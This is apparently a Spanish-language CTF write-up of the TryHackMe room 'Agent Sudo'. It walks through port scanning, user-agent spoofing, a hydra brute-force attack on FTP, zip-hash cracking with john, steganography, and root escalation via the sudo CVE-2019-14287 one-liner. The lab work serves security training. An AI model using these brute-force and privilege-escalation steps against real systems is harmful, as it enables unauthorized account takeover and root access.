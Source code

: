 ```yaml
---
layout: single
title: Agent Sudo - TryHackMe
excerpt: " Agent Sudo is **an Easy room on Tryhackme created by Deskel**. This machine requires enumeration, hash cracking, steganography, and Privilege Escalation. "
date: 2022-08-26
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-agentsudo/agentsudo.png
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:  
  - burpsuite
  - ftp
  - bruteforce
  - steganography
  - hydra
---
```


Agent Sudo is **an Easy room on Tryhackme created by Deskel**. This machine requires enumeration, hash cracking, steganography, and Privilege Escalation.

# Summary
- IP: 10.10.217.235
- Ports: 21,22,80
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	-  21 -> vsftpd 3.0.3
	-  22 -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
	-  80 -> Apache httpd 2.4.29

# Recon
- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` bash
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
```


- Analizamos la web, pero solo nos arroja un texto: Use your own codename as user-agent to access the site. from Agent R
- Con burpsuite interceptamos la petición al ingresar a la web y modificamos el USER AGENT, primero intentamos con "R" ya que está en el texto leido, y nos arroja un texto confirmándonos que existen 26 agentes más, seguimos probando con más letras en la consola jugando con CURL:

```bash
$curl -A "C" -L 10.10.217.235
```


- Con la letra "C" nos arroja un resultado, en el cual se nos menciona le nombre de uno de los agentes, el cual es "chris", con esta info, hacemos un ataque de fuerza bruta al servidor ftp:

```bash
$hydra -l chris -P /home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt ftp://10.10.217.235/
```

- Encontramos las credenciales de chris, nos conectamos por ftp y nos encontramos con 3 archivos, los descargamos todos a nuestra máquina:

```bash
ftp 10.10.217.235
```

- Analizamos los archivos: El archivo de texto nos dice que en una de las imágenes está una credencial, analizamos la imagen cutie.png:

```bash
$binwalk cutie.png
```

- Vemos que hay un zip oculto dentro de esta imagen, lo descargamos con el comando:

```bash
$binwalk -e cutie.png
```

- Vemos los archivos extraidos y nos encontramos con un zip encriptado, lo desencriptamos con john:

```bash
$zip2john 8702.zip > zip.hash

$sudo john -w:/home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt zip.hash
```

- Obtenemos la contraseña "alien", la cual usaremos para descomprimir el zip, como unzip nos da problemas, probamos con 7z:

```bash
$7z e 8702.zip
```

- Descomprimimos, y obtenemos un archivo de texto el cual nos brinda una credencial hasheada en base 64, la decodeamos:

```zsh
$echo "QXJlYTUx" | base64 -d
```

- Obtenemos la contraseña "Area51", ahora analizamos la imagen .jpg en búsqueda de esteganografía con ayuda de la página https://futureboy.us/stegano/decinput.html
- Ingresamos la imagen, usamos "Area51" como contraseña y obtenemos otro texto, el cual nos da un nombre de usuario "james" y una contraseña, la cual usaremos para entrar por SSH:

```bash
$ssh james@10.10.217.235
```

- Encontramos la primera flag y una imagen, la descargamos para buscar en google y responder en la CTF (NO ES RELEVANTE)

```bash
$sudo scp james@10.10.217.235:Alien_autospy.jpg ~/
```

# ESCALANDO PRIVILEGIOS:

- Con sudo -l vemos lo siguiente: (ALL, !root) /bin/bash         lo que nos dice que no podemos ejecutar como root pero si como !root, buscamos vulerabilidades contra esto y encontramos el CVE-2019-14287 el cual nos dice que con el siguiente comando podemos escalar privilegios:

``` 
sudo -u#-1 bash
```

- Lo ejecutamos y ya tendremos acceso ROOT.
